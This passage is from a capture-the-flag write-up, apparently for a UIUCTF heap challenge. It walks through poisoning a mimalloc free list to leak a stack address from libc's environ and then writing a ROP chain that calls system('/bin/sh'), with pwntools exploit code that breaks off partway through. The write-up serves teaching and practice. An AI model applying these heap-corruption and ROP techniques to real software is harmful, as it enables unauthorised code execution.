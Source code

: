 To pull this off, we first need a **stack pointer**. Libc provides one in `environ`, which always points to the current stack. By rewriting the Allocation Free List pointer to the address of `libc.environ`, the next allocation will hand us a chunk at that location. From there, we can simply read it to leak the **stack address**. 

```python
################################# stack leak #########
libc_environ = libc.address + 0x7da0fe9c6d60 - 0x7da0fe922000
edit(3,pack(libc_environ))
create(4)
look(4)
stack_leak = unpack(r.recv(6),'all')
print(hex(stack_leak)) 
######################################################
```

From the challenge’s Docker instance, we can figure out the exact offset between the leaked stack address from `environ` and the return address of the `update` function. That offset turns out to be **-0x70 bytes**.

ow we just point the **Allocation Free List head** to the exact stack address we want (the return address of `update`). Then, by creating a new chunk, we can write our **ROP chain** directly onto the stack. When the `update` function finally returns, execution jumps straight into our chain — and we pop a shell. **Boom!** 

```python
###################### rop_chain ######################
ROP = ROP(libc)
rdi = libc.address + 0x0000000000014413
ret = libc.address + 0x0000000000014126
system = libc.address + 0x00000000000501b0
payload = pack(rdi) + pack(next(libc.search('/bin/sh\0'))) + pack(ret) + pack(libc.sym.system)
ret_addr = stack_leak-0x70
edit(3,pack(ret_addr))
create(5)
edit(5,payload)
r.interactive()
```

**Complete Exploitation Script**

```python
from pwn import *
elf = context.binary = ELF('./chal_patched')
libc = ELF('./ld-musl-x86_64.so.1')
global r
env = {
    'LD_PRELOAD': './libmimalloc.so.2.2'
}
r = process('./chal_patched',env=env)
gdb.attach(r,gdbscript='b *update')
# r = remote('doremi.chal.uiuc.tf', 1337, ssl=True)
def create(index):
    r.sendlineafter(b'YAHNC> ',b'1')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())

def look(index):
    r.sendlineafter(b'YAHNC> ',b'3')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())  

def free(index):
    r.sendlineafter(b'YAHNC> ',b'2')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())     

def edit(index,content):
    r.sendlineafter(b'YAHNC> ',b'4')
    r.sendlineafter(b'Position? (0-15): ',str(index).encode())
```